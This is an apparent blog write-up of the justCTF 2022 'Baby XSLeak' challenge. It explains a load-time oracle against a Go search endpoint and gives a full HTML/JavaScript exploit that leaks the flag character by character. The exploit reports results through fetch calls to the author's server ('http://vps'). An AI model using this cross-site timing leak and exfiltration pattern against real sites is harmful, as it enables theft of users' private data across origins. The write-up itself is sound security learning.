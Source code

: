 ```yaml
---
title: justCTF 2022 - Baby XSLeak Write-up
date: 2022-06-14 20:43:37
tags: [Security]
categories: [Security]
---
```

<img src="/img/justctf-2022-xsleak-writeup/cover-en.png" style="display:none">

Last weekend, I played justCTF 2022 with my team [Water Paddler](https://ctftime.org/team/155019/), and we got 7th place!

It's the write-up about one of the XSleak challenges, an easier one. If you want to see the hard one, you can refer to this awesome writeup: [New technique of stealing data using CSS and Scroll-to-text Fragment feature](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/).

<!-- more -->

## About the challenge

It's a simple web service, and there are three endpoints:

1. /
2. /search
3. /debug

The core function is as below:

``` go
flagStr := os.Getenv("FLAG")
mux := http.NewServeMux()
mux.HandleFunc("/search/", func(w http.ResponseWriter, r *http.Request) {
  if !isPrivateIP(getIP(r)) {
    w.WriteHeader(http.StatusForbidden)
    return
  }
  handleSearch(w, r, flagStr)
})
mux.HandleFunc("/debug/", func(w http.ResponseWriter, r *http.Request) {
  handleSearch(w, r, "justCTF{fake_flags}")
})

func handleSearch(w http.ResponseWriter, r *http.Request, flag string) {
  query := r.URL.Query().Get("search")
  msg := r.URL.Query().Get("msg")

  if !strings.Contains(flag, query) {
    w.Write([]byte("Not found"))
  } else {
    w.Write(append([]byte(msg), flag...))
  }
}
```

You can pass two query strings `search` and `msg`, if `search` is in the flag, the server will return msg+flag, otherwise `Not Found`.

`/search` can only be accessed within the internal network via the bot, so they provide another `/debug` endpoint for the player to test.

For example, `/debug?search=NOT_EXIST&msg=hello` returns `Not found`,  and`/debug?search=justCTF&msg=hello` returns `hellojustCTF{fake_flags}`

We can use this difference to leak the flag char by char.

By the way, we can't do XSS  because of the headers:

```
w.Header().Set("X-Content-Type-Options", "nosniff")
w.Header().Set("Content-Security-Policy", "script-src 'none';")
w.Header().Set("Content-Type", "text/plain")
```

Also, [error events](https://xsleaks.dev/docs/attacks/error-events/) will not work because of `text/plain` content type.

## Oracle

What is the oracle to leak the flag?

We can use something like: `/search?search=a&msg=${'A'*1000000}`

If `a` is not in the flag, the response is just `Not Found`, otherwise A*1000000+flag

More content takes more time for the browser to render, so we can use the `<object>` tag to embed the URL and measure the load time, see the following for the actual code:

``` js
function leak(char, callback) {
  return new Promise(resolve => {
    let ss = 'just_random_string'
    // for msg, I use random string to avoid cache, but maybe it's not needed
    let url = `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=`+ss[Math.floor(Math.random()*ss.length)].repeat(1000000)
    let start = performance.now()
    let object = document.createElement('object');
    object.width = '2000px'
    object.height = '2000px'
    object.data = url;
    object.onload = () => {
      object.remove()
      let end = performance.now()
      resolve(end - start)
    }
    object.onerror = () => console.log('Error event triggered');
    document.body.appendChild(object);
  })
  
}
```

Initially, I didn't set object width and height, but later on, I found that it's important because the default size is too small to make a difference in the load time.

## Exploit

Here is my exploit in the end:

``` html
<!DOCTYPE html>
<html>
<head>

</head>
<body>
  <img src="https://deelay.me/30000/https://example.com">
    <script>
      fetch('https://deelay.me/30000/https://example.com')

      function send(data) {
        fetch('http://vps?data='+encodeURIComponent(data)).catch(err => 1)
      }

      function leak(char, callback) {
        return new Promise(resolve => {
          let ss = 'just_random_string'
          let url = `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=`+ss[Math.floor(Math.random()*ss.length)].repeat(1000000)
          let start = performance.now()
          let object = document.createElement('object');
          object.width = '2000px'
          object.height = '2000px'
          object.data = url;
          object.onload = () => {
            object.remove()
            let end = performance.now()
            resolve(end - start)
          }
          object.onerror = () => console.log('Error event triggered');
          document.body.appendChild(object);
        })
        
      }

      send('start')

      let charset = 'abcdefghijklmnopqrstuvwxyz_}'.split('')
      let flag = 'justCTF{'

      async function main() {
        let found = 0
        let notFound = 0
        for(let i=0;i<3;i++) {
          await leak('..')
        }
        for(let i=0; i<3; i++) {
          found += await leak('justCTF')
        }
        for(let i=0; i<3; i++) {
          notFound += await leak('NOT_FOUND123')
        }

        found /= 3
        notFound /= 3
        
        send('found flag:'+found)
        send('not found flag:'+notFound)

        let threshold = found - ((found - notFound)/2)
        send('threshold:'+threshold)

        if (notFound > found) {
          return
        }

        // exploit
        while(true) {
          if (flag[flag.length - 1] === '}') {
            break
          }
          for(let char of charset) {
            let trying = flag + char
            let time = 0
            for(let i=0; i<3; i++) {
              time += await leak(trying)
            }
            time/=3
            send('char:'+trying+',time:'+time)
            if (time >= threshold) {
              flag += char
              send(flag)
              break
            }
          }
        }
      }

      main()
      
    </script>
</body>

</html>
```

When exploiting the xsleak challenge, I need to send the log back to my server to know if anything is wrong.

For example, the threshold is sometimes inaccurate, so I need to update the exploit a few times manually.

Also, there are a few details to make the exploit faster and more stable. 

First, I send a few requests before measuring the load time. The first few requests are not that accurate due to DNS lookup, initial connection, etc.

Second, I send a request three times and take it's average to be more accurate(but the trade-off is that the exploit will take more time)

Third, you can leak the charset first to reduce the time and request significantly:

``` js
// leak charset
let charset = 'abcdefghijklmnopqrstuvwxyz_}'.split('')
let newCharset = ''
for(let char of charset) {
  let time = 0
  for(let i=0; i<3; i++) {
    time += await leak(char)
  }
  time/=3
  send('char:' + char + ',time:' + time)
  if (time >= thershold) {
    newCharset += char
    send(newCharset)
  }
}
```

I spent most of the time tweaking these details to get the expected result. Anyway, by running the exploit a few times, we can get the flag in the end: `justCTF{timeme__}`(IIRC, the server is off, and I forgot to take the screenshot)

